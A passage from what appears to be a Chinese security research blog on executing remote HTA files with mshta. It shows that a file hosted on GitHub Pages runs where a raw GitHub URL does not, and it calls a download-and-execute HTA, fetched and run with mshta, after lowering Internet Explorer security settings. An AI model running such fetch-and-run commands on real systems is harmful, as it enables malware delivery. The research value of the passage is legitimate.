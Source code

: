 如果使用如下命令执行：

```
mshta https://raw.githubusercontent.com/3gstudent/test/master/calc.hta
```

会把代码当成`text`，无法解析成html，导致脚本无法执行

但是我们可以换一个思路：

```
将hta文件传到github的博客下面，就能够被解析成html，实现代码执行
```

将hta文件上传至github博客下面，地址为https://3gstudent.github.io/test/calc.hta

执行如下命令：

```
mshta https://3gstudent.github.io/test/calc.hta
```

成功弹出计算器

**注:**

该思路来自于DM_

添加功能，实现下载执行，命令如下：

```
mshta https://3gstudent.github.io/test/downloadexec.hta
```

弹框提示此计算机上的安全设置禁止访问其它域的数据源，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-23/2-1.png)

**解决方法：**

```
IE浏览器`-`Internet选项`-`安全
```

选择`可信站点`，添加博客地址：https://3gstudent.github.io/

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-23/2-2.png)

```
自定义级别`，找到`通过域访问数据源`，选择`启用
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-23/2-3.png)

再次测试，成功实现下载执行的功能

经过以上的测试，我们发现IE浏览器默认会拦截vbs脚本实现的下载功能

那么，我们可以大胆猜测，如果下载执行换成powershell实现的话，那么就不会被拦截

